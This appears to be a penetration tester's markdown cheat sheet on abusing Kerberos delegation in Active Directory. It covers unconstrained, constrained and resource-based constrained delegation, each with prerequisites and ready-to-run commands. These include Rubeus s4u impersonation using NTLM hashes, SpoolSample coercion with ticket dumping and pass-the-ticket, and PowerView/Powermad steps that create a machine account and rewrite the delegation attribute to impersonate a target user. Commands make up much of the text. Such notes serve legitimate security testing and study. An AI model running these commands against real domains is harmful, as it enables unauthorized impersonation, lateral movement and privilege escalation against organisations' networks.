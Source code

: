 # Unconstrained Delegation
An account with a set SPN (e.g. Service A) can impersonate an user using the service set via the SPN at any other service in Active Directory. For this purpose, the service can use the user's ticket granting ticket, which is send together with the TGS for Service A.

## Prerequisites
NOT_DELEGATED UAC flag of target user must be false
TRUSTED_FOR_DELEGATION UAC flag in the attributes of the attacker account associated SPN must be true (only domain admins have typically the SeEnableDelegationPrivilege right to change this flag)

## Result
Domain Controller responds with target user TGT

## Commands
- using S4U2Self
Invoke-Rubeus -Command 's4u /user:<attackerComputerA> /rc4:<attackerNtlmHash> /impersonateuser:<targetUser> /msdsspn:"cifs/<fqdnTargetComputerB>" /ptt'

- using spoolservice (rubeus monitor needs elevated context)
Invoke-Rubeus -Command 'monitor /interval:1'
SpoolSample.exe <targetComputer> <attackerComputer>

- using cached ticket
Invoke-Rubeus -Command 'dump'
Invoke-Rubeus -Computer 'ptt /ticket:<base64Ticket>'


# Constrained Delegation
An account with a set SPN (e.g. Computer A with Service A) can impersonate an user using Service A at other services in Active Directory. Impersonation can be applied to services (e.g. Service B) defined in the msDS-AllowedToDelegateTo attribute of Computer A. The impersonation is performed by using the S4U2Proxy Extension, after the user authenticates to Service A. It is also possible to impersonate the user for an alternative service, as long as these service are provided by Computer B. This is because the service part of the SPN (<spn>/<fqdn>) in a service ticket is not signed by Kerberos and thus can later be manipulated.

## Prerequisites
NOT_DELEGATED UAC flag of target user must be false
msDS-AllowedToDelegateTo attribute of Computer A must hold Service B 

## Result
Domain Controller responds with TGS of target user for Service B - this TGS can be used for alternative services provided on Computer B

## Commands
- check allowed SPNs
```
Get-DomainUser <attackerComputerA> -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
```

- if SPN already contains cifs or desired service as SPN
```
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<targetUser>')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
```

- otherwise ask for TGS and insert alternative service
```
Invoke-Rubeus -Command 's4u /user:<attackerComputerA> /rc4:<ntlmHashComputerA> /impersonateuser:<targetUser> /msdsspn:"<service>/<fqdnTargetComputerB>" /altservice:cifs /ptt'
```


# Resource Based Constrained Delegation
An account (e.g. Computer A) with set SPN (e.g. Service A) can impersonate an user using Service A at other services (e.g. Service B of Computer B) in Active Directory. Impersonation can only take place if the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of Service B lists Computer A.

## Prerequisites
NOT_DELEGATED UAC flag of target user must be false
msDS-AllowedToActOnBehalfOfOtherIdentity attribute of Computer B must hold Service A 
One Domaincontroller with OS at least Windows Server 2012

## Result
Domain Controller responds with TGS of target user for Service A - this TGS can be used for alternative services

## Commands
- check machine account quota (powerview)
```
Get-DomainObject -Domain <domain> -Properties ms-ds-machineaccountquota | Select -First 1
```

- check DC OS
```
Get-NetDomainController | Select name,osversion | Format-List
```

- check present SPN in msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

- add new computer to domain if necessary (powermad)
```
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newComputerPassword>' -AsPlainText -Force)
```

- get SID of new computer
```
Get-NetComputer <newComputer> -Properties objectsid | Select -Expand objectsid
```

- create a raw security descriptor for the new computer
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<newComputerSid>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

- add new value to msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

- check added msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```
Get-NetComputer <targetComputer> -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

- ask for TGS
```
Invoke-Rubeus -Command 's4u /user:<newComputer> /rc4:<newComputerNtlmHash> /impersonateuser:<targetUser> /msdsspn:cifs/<fqdnTargetComputerB> /ptt'
```

# S4U2Proxy
The service-for-User-to-Proxy extension works for resource-based constrained delegation even if the provided TGS of the user is not forwardable (design error of microsoft).

# S4U2Self
The service-for-User-to-Self extension allows a service (e.g., Service A on Computer A) to request a service ticket on behalf of a user (e.g., user X) for another service (e.g., Service B) from the domain controller without user X having to interact with Service A beforehand. Computer A therefore does not need a service ticket from user X for Service A to request a service ticket for Service B on behalf of user X. In order to work, the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION UAC flag of Service A need to be set to true. This permission is typically granted by a domain admin. If the flag is not true the resulting TGS of user X will not be forwardable.

